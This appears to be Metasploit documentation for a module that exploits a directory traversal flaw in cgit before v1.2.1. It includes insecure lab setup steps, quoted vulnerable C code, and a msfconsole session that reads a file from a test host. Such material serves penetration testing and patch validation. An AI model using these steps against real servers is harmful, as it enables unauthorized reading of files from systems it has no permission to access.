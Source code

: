 ## Description

cgit before v1.2.1 has a directory traversal vulnerabiltiy when `cgitrc` has the `enable-http-clone` value set to 1. The directory traversal can be used to download files from the remote host. This module has been tested against cgit v1.1 running on Ubuntu 18.04.

## Vulnerable Application

[cgit before v1.2.1](https://git.zx2c4.com/cgit/)

### Installing cgit on Ubuntu 18.04 x64

1. `sudo apt install cgit` # [dependencies](https://git.zx2c4.com/cgit/tree/README) may have to be downloaded first
2. Modify `/etc/cgitrc` to have `enable-http-clone=1`. Example attached.
3. Add `.htaccess` file with rewrite rules to `/usr/lib/cgit/`. Example attached.
4. Add `cgit.conf` to `/etc/apache2/conf-enabled/`. Example attached.
5. Enable `rewrite.load` and `cgi.load` in apache2.
6. Create bare repo. `mkdir -p repo/test.git && cd repo/test.git && git init --bare`

Example files were only used for testing and are not secure or usable in non-testing environments.  These WILL make your system insecure, but will enable exploitation
by this module.

[cgit.conf](https://github.com/rapid7/metasploit-framework/files/2284678/cgit.conf.txt)

[cgitrc](https://github.com/rapid7/metasploit-framework/files/2284679/cgitrc.txt)

[.htaccess](https://github.com/rapid7/metasploit-framework/files/2284680/htaccess.txt)

### Vulnerability Details from Project Zero

There is a directory traversal vulnerability in cgit_clone_objects(), reachable when the configuration flag enable-http-clone is set to 1 (default):

```
void cgit_clone_objects(void)
{
    if (!ctx.qry.path) {
        cgit_print_error_page(400, "Bad request", "Bad request");
        return;
    }

    if (!strcmp(ctx.qry.path, "info/packs")) {
        print_pack_info();
        return;
    }

    send_file(git_path("objects/%s", ctx.qry.path));
}
```

send_file() is a function that simply sends the data stored at the given filesystem path out over the network.
git_path() partially rewrites the provided path and e.g. prepends the base path of the repository, but it does not sanitize the provided path to prevent directory traversal.

ctx.qry.path can come from querystring_cb(), which takes unescaped data from the querystring.

## Options

**REPO**

Git repository on the remote server. Default is empty, `''`.

## Verification Steps

1. `./msfconsole -q`
2. `set rhosts <rhost>`
3. `set targeturi <uri>`
4. `set repo <repo>`
5. `run`

## Scenarios

### Ubuntu 18.04 x64, cgit | 1.1+git2.10.2-3build1

```
msf5 > use auxiliary/scanner/http/cgit_traversal
msf5 auxiliary(scanner/http/cgit_traversal) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf5 auxiliary(scanner/http/cgit_traversal) > set targeturi /mygit/
targeturi => /mygit/
msf5 auxiliary(scanner/http/cgit_traversal) > set repo test
repo => test
msf5 auxiliary(scanner/http/cgit_traversal) > set filepath /home/msfdev/proof.txt
filepath => /home/msfdev/proof.txt
msf5 auxiliary(scanner/http/cgit_traversal) > set verbose true
verbose => true
msf5 auxiliary(scanner/http/cgit_traversal) > run

[+] 172.22.222.123:80     - 
you found me!

[+] File saved in: /home/msfdev/.msf4/loot/20180813150517_default_172.22.222.123_cgit.traversal_235024.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
